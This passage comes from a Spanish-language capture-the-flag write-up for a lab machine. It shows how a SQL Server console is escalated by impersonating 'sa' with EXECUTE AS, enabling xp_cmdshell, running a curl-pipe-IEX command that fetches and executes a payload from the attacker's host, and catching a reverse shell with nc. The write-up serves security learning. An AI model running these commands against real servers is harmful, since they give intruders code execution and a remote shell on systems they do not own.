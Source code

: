 En la parte de herramientas de desarrollo hay una consola SQL, y rápidamente notaremos que se trata de un SQL Server, en el cual podemos utilizar funciones como `xp_cmdshell` para obtener ejecución de código en la máquina.

Sin embargo, al intentar ir por esto nos dirá que no tenemos suficientes privilegios para usar funciones especiales necesarias para activar dicha función, como `sp_configure`:

```sql
> sp_configure "show advanced options",1
('42000', '[42000] [Microsoft][ODBC Driver 17 for SQL Server][SQL Server]User does not have permission to perform this action. (15247) (SQLExecDirectW)')
```

Pero, MSSQL tiene una instrucción para poder impersornar otros usuarios que es `EXECUTE AS`:

> By default, a session starts when a user logs in and ends when the user logs off. All operations during a session are subject to permission checks against that user. When an EXECUTE AS statement is run, the execution context of the session is switched to the specified login or user name. After the context switch, permissions are checked against the login and user security tokens for that account instead of the person calling the EXECUTE AS statement. In essence, the user or login account is impersonated for the duration of the session or module execution, or the context switch is explicitly reverted.

Si el usuario tiene permisos para hacer esto, podemos impersonar al usuario `sa` y activar el `xp_cmdshell` para posteriormente ejecutarlo. Para probar esto utilizaremos esta serie de instrucciones, dejando un servidor http en escucha antes:

```sql
EXECUTE AS LOGIN = 'sa';
EXEC sp_configure 'show advanced options', 1
reconfigure
EXEC sp_configure 'xp_cmdshell', 1;
reconfigure;
EXEC xp_cmdshell 'curl -UseBasicParsing http://<ip>:<port>/uwu | IEX';
```

Al hacerlo, el servidor no nos reporta nada pero recibiremos un callback en nuestro servidor http:

```bash
❯ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.5 - - [07/Oct/2024 17:32:43] "GET /uwu HTTP/1.1" 200 -
```

Por lo que ya ahora podremos enviarnos una reverse shell colocando en el fichero `uwu` algo como una ConPtyShell.

```bash
❯ rlwrap nc -lvnp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.5 56178
Windows PowerShell Testing 
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\WINDOWS\system32>
```

### mikasaAckerman - DC (freelancer.htb)
